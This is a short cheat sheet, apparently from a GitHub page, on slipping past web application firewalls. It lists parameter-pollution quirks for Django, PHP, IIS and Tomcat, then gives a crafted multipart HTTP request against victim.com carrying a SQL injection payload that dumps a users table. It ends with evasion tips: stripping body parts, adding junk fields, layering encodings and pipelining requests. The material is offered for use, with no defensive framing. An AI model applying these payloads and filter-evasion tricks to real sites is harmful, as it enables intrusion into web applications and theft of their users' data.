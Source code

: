 


Some examples to start with: 
```
&==; – Python Django between parameters! 
FooB==POST verb – Apache with PHP 
<%I%M%u011e>== – IIS ASP Classic 
;/path1;foo/path2;bar/;==/path1/path2/ – Apache Tomcat
```
- change request METHOD : POST with GET
- use `Content-Type: multipart/form-data; boundary=1`
```HTTP
GET /path/sample.aspx?input0=0 HTTP/1.1 
HOST: victim.com 
Content-Type: multipart/form-data; boundary=1 
Content-Length: 95 

--1 
Content-Disposition: form-data; name="input1"

'union all select * from users-- 
--1--
```
- remove parts from the body such as `form-data` | last `--` in boundary
- add useless parts such as `filename=foo` in content-disposition
- more encoding
- pipeline requests 'multiple-request' in one request